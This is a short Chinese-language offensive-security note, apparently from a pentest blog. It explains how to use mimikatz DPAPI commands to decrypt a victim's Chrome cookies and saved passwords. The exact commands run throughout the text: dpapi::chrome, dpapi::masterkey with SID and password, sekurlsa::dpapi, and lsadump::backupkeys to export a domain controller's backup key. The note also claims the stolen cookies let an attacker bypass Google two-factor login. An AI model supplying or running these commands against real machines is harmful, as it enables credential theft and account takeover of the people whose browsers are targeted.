




1.在线获取，必须要登录到用户的计算机上

导出`cookies`

`dpapi::chrome /in:"C:\Users\victim\AppData\Local\Google\Chrome\User Data\Default\cookies"`

导出登录凭证
`dpapi::chrome /in:"C:\Users\victim\AppData\Local\Google\Chrome\User Data\Default\login data" /unprotect`

2.离线获取，有几点要求，需要知道目标的SID和密码，或者有域的根密钥

如果没有正确的masterkey，解密的时候会出现错误，如果有足够的权限，也可以使用mimikatz的`sekurlsa::dpapi`命令来获取masterkey，当然我们要离线的话，就不能把mimikatz上传到服务器

SID和masterkey在用户的`%appdata%`目录下

使用SID配合密码导入masterkey，然后对cookies进行解密，这样解出来的masterkey是默认导入了mimikatz的缓存里，解密时候不需要指定masterkey
`dpapi::masterkey /in:"1853c496-c182-49eb-aa4e-79a24e9bd90c" /SID:S-1-5-21-2104814972-2348396718-1065983387-1653 /password:YourPassword /unprotect`

`dpapi::chrome /in:"cookies"`

获得了chrome中保存的cookie，只要用户在登录google的时候，选择了记住该设备，那么可以利用解密出来的cookie进行登录，绕过google的双因素验证

使用mimikatz导出的backupkey来进行解密，导出的4个文件中最重要的为.pvk文件
`lsadump::backupkeys /export /system:dc.computer.com`

使用.pvk文件进行解密masterkey，并解出cookies

参考文章

https://ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++

